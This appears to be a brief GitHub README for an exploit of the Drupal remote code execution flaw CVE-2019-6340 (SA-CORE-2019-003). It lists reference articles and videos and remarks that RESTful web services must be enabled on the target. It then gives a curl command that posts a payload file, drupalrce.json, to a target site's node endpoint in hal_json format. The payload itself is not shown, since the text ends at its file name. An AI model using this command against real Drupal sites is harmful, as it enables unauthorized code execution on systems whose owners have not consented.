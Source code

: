 # Drupal-SA-CORE-2019-003 CVE-2019-6340
Drupal SA-CORE-2019-003 CVE-2019-6340

 CVE-2019-6340.md
https://mp.weixin.qq.com/s/EQD4-K6HgBY9wdzeXeyzkg

https://paper.seebug.org/821/


https://www.youtube.com/watch?v=QtLDDN0Duko

[linkname](https://www.youtube.com/watch?v=QtLDDN0Duko)




https://pbs.twimg.com/media/D0C-KiXX4AM2vR3.jpg:large

![marty-mcfly](https://pbs.twimg.com/media/D0C-KiXX4AM2vR3.jpg:large)


CVE-2019-6340 isn’t a default configuration, you have to manually enable Restful web services: 




![marty-mcfly](https://pbs.twimg.com/media/D0EShBfWwAEXxK0.jpg:large)


Command
$ curl -k -v -H 'Content-Type: application/json' -d @./drupalrce.json 'https://<http://your.web.site >/node/<node_id>?_format=hal_json'

file drupalrce.json
